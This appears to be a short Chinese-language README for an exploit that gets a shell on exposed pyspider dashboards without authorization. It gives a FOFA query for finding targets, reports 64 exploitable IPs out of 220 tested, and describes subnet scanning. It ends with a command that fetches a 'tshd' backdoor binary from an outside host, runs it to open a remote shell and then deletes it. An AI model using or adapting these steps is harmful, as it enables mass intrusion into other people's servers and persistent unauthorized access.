



"# pyspider未授权getshell" 

fofa语法 
title="Dashboard - pyspider"

fofa测试220条，64个IP可使用

文件中放IP进行扫描

C段扫描

exp使用

PS：此exp反弹的shell不稳定，尽快反弹交互式shell
curl http://域名/tshd -o /tmp/tshd;chmod 777 /tmp/tshd;/tmp/tshd 30016; rm /tmp/tshd